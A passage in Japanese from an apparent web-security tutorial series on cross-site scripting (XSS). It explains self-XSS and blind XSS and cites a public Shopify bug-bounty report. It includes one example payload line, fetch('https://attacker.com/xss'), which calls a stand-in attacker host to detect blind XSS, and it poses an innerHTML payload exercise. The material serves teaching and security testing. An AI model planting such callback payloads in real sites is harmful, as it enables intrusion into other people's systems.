 この事例から、ワームXSSの影響力がわかります。

XSSを「ペイロードの発生源」で分類する以外にも、XSSを分類する他の方法があります。以下では、あまり一般的ではありませんが、知っておくとよい2つの特殊なXSSの分類を追加で紹介します。

### Self-XSS

Self-XSSには実際には2つの解釈があります。1つ目は「自分自身を攻撃する」ことです。たとえば、ウェブページの開発者ツールを開き、自分でJavaScriptコードを貼り付けるのは、一種のSelf-XSSです。一部のウェブサイトでは、これを行わないように特に警告しています。たとえば、Facebookです。

![](pics/03-02.png)

2つ目の解釈は「自分自身しか攻撃できないXSS」であり、通常はSelf-XSSとも呼ばれます。

これまで述べてきたXSSはすべて他人を攻撃するためのものでした。なぜなら、他人があなたのペイロードを見ることができるからです。しかし、時には自分自身しか見ることができません。

例を挙げましょう。電話番号のフィールドにXSSの脆弱性があるとします。しかし、問題は電話番号が個人情報であるため、自分の設定ページでしか見ることができず、他人は見ることができません。このような状況はSelf-XSSであり、自分の設定ページを開いたときにしか`alert()`のポップアップウィンドウが表示されません。

あまり役に立たないように見えますが、他の脆弱性と組み合わせると、他人が見ることができるようになる可能性があります。

## Blind XSS

Blind XSSとは、「XSSが見えない場所で、わからない時点で実行される」ことを意味します。

例を挙げましょう。あるeコマースプラットフォームがあり、テストした結果、すべてのフィールドに問題はなく、XSSの脆弱性も見つからなかったとします。しかし、実際にはeコマース自体には内部バックエンドがあり、すべての注文データを見ることができます。そして、このバックエンドには脆弱性があり、名前のエンコードを忘れていたため、名前フィールドを使用してXSSを実行できます。

このような状況では、通常、テスト時にはわかりません。なぜなら、バックエンドへのアクセス権がなく、バックエンドの存在すら知らないからです。このような状況をテストしたい場合は、XSSペイロードのコンテンツを`alert()`から、`fetch('https://attacker.com/xss')`のようなパケットを送信するペイロードに変更する必要があります。そうすれば、XSSが見えない場所でトリガーされたときに、攻撃者のサーバーから観察できます。

[XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter-express)のような既存のサービスの中には、XSSがトリガーされたかどうかをより簡単に観察できるプラットフォームを提供しているものもあります。トリガーされた場合、トリガーされたURLや画面上の他のコンテンツなどが返されます。

実際の事例について言えば、rioncool22は2020年にShopifyに脆弱性を報告しました：[Blind Stored XSS Via Staff Name](https://hackerone.com/reports/948929)。彼はShopifyのマーチャントバックエンドにスタッフを追加し、名前フィールドにXSSペイロードを挿入しました。Shopifyのマーチャントバックエンドではトリガーされませんでしたが、Shopify独自の内部バックエンドではトリガーされ、最終的に$3,000の賞金を獲得しました。

## まとめ

この記事はXSSの基本的な紹介であり、主にXSSが引き起こす可能性のある影響と原因に焦点を当て、ついでにself-XSSとblind XSSという2つの分類も紹介しました。

これはXSSのほんの始まりにすぎません。次の記事では、さらに深く掘り下げて、XSSのさまざまな側面を見ていきます。

次の記事に進む前に、`innerHTML = data`というインジェクションポイントを見つけたとすると、XSSをトリガーするためにどのようなペイロードを使用するかを考えてみてください。
